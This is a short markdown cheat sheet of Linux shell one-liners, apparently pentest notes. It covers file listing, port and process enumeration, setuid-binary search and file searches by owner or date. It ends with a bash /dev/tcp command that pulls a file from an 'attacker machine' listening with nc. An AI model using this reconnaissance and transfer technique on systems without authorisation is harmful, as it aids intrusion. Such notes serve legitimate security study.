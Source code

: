# list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

# process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

# find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

# find files belonging to user
```bash
find / -user username 2>/dev/null
```

# find files belonging to group
```bash
find / -group adm 2>/dev/null
```

# find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

# find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

# get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

# get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

# find all git repositories
```bash
find / -name .git 2>/dev/null
```

# get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

# download files with just bash
```bash
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
On attacker machine, `nc -lvnp $LPORT < filename`
